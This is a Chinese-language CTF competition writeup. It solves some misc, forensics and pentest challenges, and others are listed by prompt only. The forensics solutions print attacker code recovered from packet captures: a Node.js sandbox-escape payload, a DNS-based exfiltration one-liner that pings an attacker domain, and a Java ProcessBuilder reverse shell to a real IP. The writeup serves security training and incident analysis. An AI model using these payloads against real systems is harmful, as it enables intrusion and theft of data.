


- [安全牛破阵CTF Writeup](#安全牛破阵ctf-writeup)
  - [Misc](#misc)
    - [1. 代码中的秘密](#1-代码中的秘密)
    - [2. 绕过合规悄悄的上线了](#2-绕过合规悄悄的上线了)
  - [Web](#web)
    - [3. Secure File Viewer](#3-secure-file-viewer)
    - [4. 源自于真实](#4-源自于真实)
    - [5. 这个笔记真的安全吗？](#5-这个笔记真的安全吗)
  - [Forensics](#forensics)
    - [6. 静影寻踪](#6-静影寻踪)
    - [7. FLAG消失之谜](#7-flag消失之谜)
    - [8. 应急拯救计划：隐匿潜袭](#8-应急拯救计划隐匿潜袭)
    - [9. 一发入魂](#9-一发入魂)
    - [10. 锈蚀密钥](#10-锈蚀密钥)
  - [Crypto](#crypto)
    - [11. 寻迹烟海](#11-寻迹烟海)
  - [Pentest](#pentest)
    - [12. 东西很老，能用就好](#12-东西很老能用就好)
    - [13. 综合挑战](#13-综合挑战)
    - [14. 内部监控暴露](#14-内部监控暴露)


# 安全牛破阵CTF Writeup

## Misc
### 1. 代码中的秘密
提示：你正在对一台运行Nginx的Web服务器进行安全评估。初始访问时只看到默认的Nginx欢迎页面，但经验告诉你，信息收集是关键的第一步。

扫描发现`/robots.txt`，内容如下：
```
User-agent: *
Disallow: /
d2Ugc2NhbiBwaHAgY29kZXMgd2l0aCByaXBzCg==
```

base64解码后得到：we scan php codes with rips。根据提示访问/`rips`，是一个php漏洞扫描。根据默认路径扫描`/var/www/`，如下：


**方法一：直接正则搜索`flag{`关键字**


**方法二：任意文件读取**
查看发现`code.php`有任意文件读取漏洞，读取原文件：http://175.27.169.122:15848/rips/windows/code.php?file=/var/www/html/rips/windows/code.php
```php
$file = $_GET['file'];
$ext = '.'.pathinfo($file, PATHINFO_EXTENSION);

if(!empty($file) && is_file($file) && in_array($ext, $FILETYPES))
```

在扫描的文件中发现一个奇怪的php：`/html/rips/e4b5cbfa-e681-40d4-9ee4-3d068569cbe4.php`


用任意文件读取漏洞获得flag：http://175.27.169.122:15848/rips/windows/code.php?file=/var/www/html/rips/e4b5cbfa-e681-40d4-9ee4-3d068569cbe4.php

### 2. 绕过合规悄悄的上线了
提示：老王的组织最近外购了一个系统，赶进度鸟悄的上线了。没有按照之前评估要求部署系统，被外部黑客利用，当前是当时快照。可以帮忙看看为什么被利用了吗？

## Web

### 3. Secure File Viewer
提示：系统提供“安全文件查看”功能

### 4. 源自于真实
提示：调查问卷说题目设计不够真实，题目源自于真事事件，到你展示了

### 5. 这个笔记真的安全吗？
提示：安全笔记即将上线，公司上下都对这款绝对可靠的产品充满期待。 但作为安全工程师的你，总感觉这个系统有些不对劲。


## Forensics

### 6. 静影寻踪
提示：于凝固的数字记忆中，追溯那些悄然消逝的涟漪与未言之约。

下载解压后，从原始文件里提取所有长度 ≥ 6的可读字符串搜索，即可得到flag。
```
file target.raw
strings -a -n 6 target.raw > strings.txt

grep -i "flag{" strings.txt
```

### 7. FLAG消失之谜
提示：我们刚刚监测到一次针对 Web 服务器的精准攻击——攻击者利用漏洞成功窃取了服务器上的敏感文件FLAG。 幸运的是，我们捕获了攻击期间的完整网络流量，但 FLAG 已被攻击者通过某种方式隐藏并外传。

**漏洞分析**：攻击者通过YApi的高级Mock功能中的代码注入漏洞，通过`/api/plugin/advmock/save`接口注入恶意代码。
1. 侦察
   - Packet 1622: 执行`id`命令探测系统
   - Packet 2338: 执行`uname -a`获取系统信息
   - Packet 2876: 执行`pwd`确认当前目录
   - Packet 3413: 执行`ls /`列出根目录文件
2. 注入的恶意代码模式
   - 经典的Node.js沙箱逃逸技术，通过构造函数链获取process对象，进行执行任意系统命令
    ```js
    const sandbox = this
    const ObjectConstructor = this.constructor
    const FunctionConstructor = ObjectConstructor.constructor
    const myfun = FunctionConstructor('return process')
    const process = myfun()
    mockJson = process.mainModule.require("child_process").execSync("命令").toString()
    ```
3. 数据外传
   - 在Packet 3911中发现攻击者执行了以下命令：将flag进行base64编码，删除base64的padding字符`=`，删除换行符
   - 通过dns查询的方式将编码后的数据作为子域名发送，通过`ping`向攻击者控制的域名`c07545bc.digimg.store`发起请求，从而完成数据外传
    ```bash
    cat /flag | base64 | tr -d '=' | tr -d '\n' | xargs -I {} ping -c 1 {}.c07545bc.digimg.store
    ```
4. 在Packet 3997和3998中发现了DNS查询:
    ```
    ZmxhZ3s3NGM3YzQ4Yy00Y2E1LTRkMDctYmVjYy0xMmJhYjMyYTlmNDB9.c07545bc.digimg.store
    ```
    base64解码得到:`flag{74c7c48c-4ca5-4d07-becc-12bab32a9f40}`

### 8. 应急拯救计划：隐匿潜袭
提示Tomcat服务器遭到入侵，攻击者植入后门，任务是彻底清除所有后台痕迹，获得flag。登陆系统后当前目录有一个`./flagcheck`，检测后门是否仍然存在，如存在则无法提供flag。

首先检查tomcat目录：`/opt/apache-tomcat-8.5.100/webapps`
```bash
ps aux | grep tomcat
```

查看webapps中JSP，没有明显的webshell名称。
```bash
find webapps -type f \( -name "*.jsp" -o -name "*.jspx" \)
```

查看`webapps/a`（非默认webapp）目录发现一个空的`login.jsp`，这可能是一个入侵残留痕迹，删除该webshell
```bash
rm -rf /opt/apache-tomcat-8.5.100/webapps/a
```

查看`webapps/examples`下有一个空的`login.jsp`，删除
```bash
rm -rf /opt/apache-tomcat-8.5.100/webapps/examples/login.jsp
```

查看tomcat配置级后门`conf/`、`lib/`和`bin/`，确认`lib/`干净，`conf/`结构正常，但是有一个`bin/setenv.sh`（非默认配置）。查看`bin/setenv.sh`后发现没有启动注入或命令执行。
```bash
ls -lt lib
ls conf
ls bin
```

查看tomcat配置内容注入，未发现自定义的className等，但是`tomcat-users.xml`中有明文弱口令和manager-script（=可远程部署war）
- `server.xml`的valve/listener
- 用户配置
```bash
grep -R "Valve\|Listener" conf/server.xml
cat conf/tomcat-users.xml
```

查看系统级持久化后门
- cron后门
- systemd服务伪装
- SUID后门
- SSH持久化
```bash
cat /etc/crontab
crontab -l
ls -al /etc/cron.hourly
ls -al /etc/cron.daily
ls -al /etc/cron.weekly
ls -al /etc/cron.d
```
发现一条`* * * * * /var/crash/tomcat`以root每分钟执行任务，路径为`/var/crash/tomcat`

清除后门：删除cron和后门文件
```bash
crontab -r
rm -f /var/crash/tomcat
```

运行`flagcheck`得到flag

### 9. 一发入魂
提示：这位黑客老哥属实是个讲究人，全程只发一个 HTTP 包，深藏功与名。快来围观这“一发入魂”的骚操作，顺便把 FLAG 领走

**漏洞分析**：
在Packet 241，攻击者向`172.23.3.25:8001/ScriptEngine/scriptEngineEval.do`发送了一个恶意java代码执行请求（URL编码）
```java
var pb = new java.lang.ProcessBuilder("bash", "-c", 
    "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny43Ni4xODIuMTk1LzUzNTMgMD4mMQ==}|{base64,-d}|{bash,-i}");
pb.redirectErrorStream(true);
var p = pb.start();
var scanner = new java.util.Scanner(p.getInputStream()).useDelimiter("\\A");
scanner.hasNext() ? scanner.next() : ""
```

解码后得到的命令如下，成功建立了反向shell
```bash
bash -i >& /dev/tcp/47.76.182.195/5353 0>&1
```

获得反向shell之后进行如下操作
- `whoami`：确定获得root权限
- `ip a`：查看网络配置
- `echo "bHMgL3xoZXhkdW1wIC12ZSAnMS8xICIlLjJ4Iic=" | base64 -d | bash`：列出根目录
  - 解码后得到`ls / | hexdump -ve '1/1 "%.2x"'`
  - 服务器返回hexdump，转换为文本后发现flag文件
- `echo "aGV4ZHVtcCAtdmUgJzEvMSAiJS4yeCInIC9mbGFn" | base64 -d | bash`：读取flag文件
  - 解码后得到`hexdump -ve '1/1 "%.2x"' /flag`
  - 服务器返回hexdump，转换为文本后得到:`flag{d8927edb-406e-4447-9f4a-0b18ab439703}`

### 10. 锈蚀密钥
提示：在已停摆的金属碎片中，找到那把能开启沉寂闸门的、布满时间刻痕的钥匙。

## Crypto

### 11. 寻迹烟海
提示：在由字符构成的浩瀚迷雾之中，藏匿着一串通往真相的印记。唯有循着那缕隐秘的脉络，才能穿越迷障，触达最终的答案。

## Pentest

### 12. 东西很老，能用就好
提示：一个站点作为公司官网。被外部黑灰产发现该网站存在多处安全隐患，邀请进行渗透测试，最终获取服务器上的敏感文件。

### 13. 综合挑战
提示：发现一个Web应用，需要综合运用多种技术手段完成渗透测试

### 14. 内部监控暴露
提示：公司的内部系统监控页面意外暴露在公网上，安全团队检测到该页面存在安全隐患。 你的任务是渗透该系统，获取最终的 flag。

